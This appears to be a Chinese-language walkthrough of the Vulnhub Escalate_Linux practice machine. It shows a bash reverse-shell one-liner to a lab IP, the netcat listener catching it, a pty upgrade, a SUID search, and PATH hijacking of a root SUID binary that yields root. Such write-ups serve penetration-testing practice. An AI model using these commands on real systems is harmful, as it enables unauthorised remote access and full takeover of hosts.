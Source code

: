[(162条消息) 【靶机渗透】Escalate_Linux靶机渗透练习+12种提权方式_-escalate_linux_malloc_冲！的博客-CSDN博客](https://blog.csdn.net/serendipity1130/article/details/120009530)

[Vulnhub-靶机-ESCALATE_LINUX: 1 - 皇帽讲绿帽带法技巧 - 博客园 (cnblogs.com)](https://www.cnblogs.com/autopwn/p/13804500.html)

# 得到权限

<img src=".\图片\Snipaste_2023-07-01_10-13-08.png" alt="Snipaste_2023-07-01_10-13-08" style="zoom:80%;" />

```bash
bash -c '/bin/bash -i >& /dev/tcp/192.168.0.103/1234 0>&1'
export TERM=xterm
python -c 'import pty; pty.spawn("/bin/bash")'
```



```bash
└─# nc -lvvp 1234
listening on [any] 1234 ...
connect to [192.168.0.103] from 192.168.0.102 [192.168.0.102] 51504
bash: cannot set terminal process group (1034): Inappropriate ioctl for device
bash: no job control in this shell
Welcome to Linux Lite 4.4 
 
Friday 30 June 2023, 22:16:28
Memory Usage: 337/985MB (34.21%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
 user6  / | var | www | html  id
id
uid=1005(user6) gid=1005(user6) groups=1005(user6) 
 user6  / | var | www | html  export TERM=xterm                                
export TERM=xterm
 user6  / | var | www | html  python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
Welcome to Linux Lite 4.4 
 
Friday 30 June 2023, 22:17:41
Memory Usage: 343/985MB (34.82%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)

```



# 权限提升

## 环境变量劫持

1、查找 suid 权限的文件

```bash
find / -perm -u=s -type f 2>/dev/null

find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/sbin/mount.ecryptfs_private
/sbin/mount.cifs
/usr/sbin/pppd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/umount
/bin/fusermount
/home/user5/script
/home/user3/shell
```

2、查看 `/home/user5/script`

```bash
-rwsr-xr-x  1 root  root  8392 Jun  4  2019 script
```

3、运行看看，它执行的是 ls 命令

```bash
user6  / | home | user5  ./script
./script
Desktop    Downloads  Pictures	Templates  ls
Documents  Music      Public	Videos	   script

```

4、环境变量劫持

```bash
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
echo $PATH
export PATH=/tmp:$PATH
cd /home/user5/
./script
```

```bash
 root  / | home | user5  id
id
uid=0(root) gid=0(root) groups=0(root),1005(user6)

```

还有很多方法提权，这里不展示了

# 总结

提权靶场，环境变量劫持
